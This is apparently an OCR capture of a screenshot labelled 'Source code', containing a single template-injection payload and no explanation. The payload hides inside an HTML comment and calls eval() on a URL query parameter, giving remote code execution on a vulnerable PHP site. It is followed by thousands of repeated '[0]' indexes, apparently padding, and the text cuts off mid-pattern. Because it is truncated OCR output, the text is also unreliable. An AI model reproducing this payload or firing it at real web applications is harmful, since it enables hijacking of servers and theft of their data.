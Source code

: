 ```bash
<!--{$db->insert_id(isset($_GET[1])?die(eval($_GET[1])):'')}{$a[0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0
```